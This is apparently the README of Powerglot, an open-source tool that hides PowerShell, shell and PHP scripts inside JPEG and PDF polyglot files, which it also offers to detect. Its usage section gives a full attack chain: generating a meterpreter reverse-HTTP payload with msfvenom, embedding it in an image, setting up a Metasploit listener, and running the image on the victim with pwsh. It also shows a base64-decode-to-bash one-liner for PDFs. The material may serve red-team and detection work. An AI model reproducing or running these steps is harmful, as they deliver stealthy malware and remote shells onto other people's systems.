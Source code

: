 # Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessay a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG format.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

```
# SERVER
# Prepare the payload and configure the server to receive a meterpreter connection

# msfvenom --payload windows/x64/meterpreter_reverse_http --format psh --out meterpreter.ps1 LHOST=<IP> LPORT=<PORT>
# python3 powerglot.py -o meterpreter.ps1 cat.jpg cat-o.jpg
# Check correct JPEG format
  #file cat-o.jpg
  # feh cat-o.jpg

msf > use exploit/multi/handler msf exploit(multi/handler) > set payload windows/meterpreter_reverse_http payload => windows/meterpreter_reverse_http msf exploit(multi/handler) > set lhost <IP> lhost => <IP> msf exploit(multi/handler) > set lport <PORT> lport => <PORT> msf exploit(multi/handler) > exploit

# LINUX VICTIM
# Download cat-o.jpg
# Execute 
# pwsh cat-o.jpg or cat cat-o.jpg | pwsd
```

```
# Polyglot in PDF
#base64 payload.sh (example linenum.sh)
#Create script.sh
echo "fasdfafdafdf=" | base64 .d | bash

#python3 powerglot -o script.sh file.pdf file-1.pdf
```



# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected.

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


